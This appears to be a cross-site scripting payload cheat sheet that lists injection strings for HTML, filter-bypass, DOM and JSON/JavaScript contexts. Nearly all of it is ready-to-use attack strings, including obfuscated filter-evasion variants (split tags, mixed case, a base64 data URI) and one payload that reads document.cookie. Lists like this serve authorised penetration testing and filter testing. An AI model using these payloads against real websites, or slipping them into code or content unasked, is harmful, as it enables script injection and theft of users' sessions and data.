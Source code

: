 # Basic XSS Payloads

```
<script>alert(1)</script>
"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<math><mi//xlink:href="data:x,<script>alert(1)</script>">
```

# Bypassing Filters
```
<scr<script>ipt>alert(1)</scr</script>ipt>
<IMG SRC=JaVaScRiPt:alert(1)>
<svg><script xlink:href=data:,alert(1)></script></svg>
<svg><a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">Click</a></svg>
<details open ontoggle=confirm(1)>
```
# DOM XSS Payloads (Assume input is reflected into JS)
```
';alert(1);// 
";alert(1);// 
</script><script>alert(1)</script>
'+document.domain+' 
"><svg onload=confirm(document.cookie)>
```
# JSON/JS Injection Payloads (Context: inside a JSON/JS response)
```
"};alert(1);//
');alert(1);//
",";alert(1);//
```
